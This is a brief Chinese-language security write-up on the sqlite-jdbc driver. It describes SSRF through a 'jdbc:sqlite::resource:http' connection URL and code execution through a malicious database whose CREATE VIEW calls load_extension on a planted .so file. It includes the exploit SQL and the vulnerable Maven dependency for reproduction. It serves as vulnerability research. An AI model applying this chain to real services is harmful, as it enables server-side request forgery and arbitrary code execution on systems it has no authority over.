


# SQLLite With SSRF

当sqllite建立连接是会调用`org.sqlite.core.CoreConnection#open`



可以看到这里有一个extractResource



这意味着如果我们准备一个连接，如jdbc:sqlite::resource:http://127.0.0.1:8888/poc.db，SQLite将连接该地址并从中获取内容。这确实会导致SSRF


如何拓展攻击面呢

参考 "[选择code_execution从 * 使用 SQLite;- 检查点研究 (checkpoint.com)](https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/)"，我们可以利用 "CREATE VIEW "将不可控的SELECT语句转换为可控。

如果我们能够控制SELECT语句，我们可以使用SELECT load_extension('/tmp/test.so')来加载dll/so并执行邪恶的代码，但是在现实世界中，在目标系统上拥有可控制的文件并不容易，而且load_extension默认设置为关闭。

首先我们对恶意的sqlite文件执行

```sql
create view y4tacker as SELECT (select load_extension('/tmp/1.so'))
```

之后当我们执行`statement.execute("SELECT * FROM security");`的时候就可以实现攻击

依赖给出便于复现

```xml
<dependency>
  <groupId>org.xerial</groupId>
  <artifactId>sqlite-jdbc</artifactId>
  <version>3.8.9</version>
</dependency>
```

